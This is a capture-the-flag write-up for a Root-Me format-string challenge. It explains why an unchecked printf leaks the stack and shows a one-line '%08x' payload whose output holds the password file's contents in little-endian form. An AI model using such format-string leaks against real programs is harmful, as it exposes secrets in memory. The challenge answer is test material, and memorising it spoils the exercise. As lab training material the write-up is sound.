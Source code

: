 # ELF x86 - Format string bug basic 1
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Format-string-bug-basic-1
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch5@challenge02.root-me.org  
Username	app-systeme-ch5
Password	app-systeme-ch5
```

According to the provided source code, the program reads the **.passwd** file and prints a messsage given by the user (argv[1]).<br>
The _printf_ function prints an uncontrolled string, and therefore the program is vulnerable for format string attacks.<br>
Because the program reads the file into a local buffer, the flag should be in the stack. Therefore, there is no need for a shell, just printing the stack values using the vulnerable _printf_ function.<br><br>

First, let's verifiy that the program actually prints the stack values:
```sh
app-systeme-ch5@challenge02:~$ ./ch5 `python -c "print '%08x,'*14"`
00000020,0804b008,b7e562f3,00000000,08049ff4,00000002,bffffc14,bffffd32,0000002f,0804b008,39617044,28293664,6d617045,00000a64,
```

The end of the output looks suspicious. If we'll convert the last 4 words we should get "9apD()6dmapEd".<br>
And if we'll convert it to big-endian format (as it should be - the memory saves the bytes in little endian) then we should get the flag.
